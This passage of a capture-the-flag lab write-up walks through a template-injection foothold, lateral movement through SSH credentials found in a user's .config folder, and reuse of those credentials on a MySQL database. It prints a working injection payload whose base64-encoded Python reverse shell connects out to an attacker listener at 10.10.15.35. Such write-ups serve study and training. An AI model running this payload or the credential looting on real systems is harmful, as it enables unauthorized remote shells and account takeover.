 Here is the final query

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChz\nb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE1LjM1\nIiwzMzQ1NikpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29z\nLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oInNoIiknCg==" | base64 -d | sh').read()}}
```

Now if we listen to the specified port we get the shell

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/f3bb917b-d63a-4b2a-ae24-4b296589d14a"></img>
</div>

So after this we need to take the `user` flag, but we are not allowed 'cause we are `atlas` and not `silentobserver`, but if we look closely to the `atlas`'s folder we can get some ssh credentials located in the .`config` folder for him.`

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/2b286900-81cc-4660-8c8d-a9a35bd58690"></img>
</div>

Finally we can login and get the flag

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/62424a7b-ccf1-4adf-84e0-e9f60dd713fa"></img>
</div>

From silentobserver we can't just fetch the user flag but even try to login into the mysql’s DB with the prevs used credentials

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/c1e34442-3282-4ce5-811c-6d7a5a511881"></img>
</div>

And inside there are some creds

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/8b357e52-0967-4c76-8da2-9161c75e7bad"></img>
</div>

It turned out that they are just a rabbit hole ‘cause used to login into an account on a secret website page, that we didn’t find before, but don’t worry we couldn’t do anything there, so let’s look further for the priv-esc

## Root.txt
Here is the info by running `export`

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/947254bb-edd9-46b4-9a8c-e34508d93509"></img>
</div>
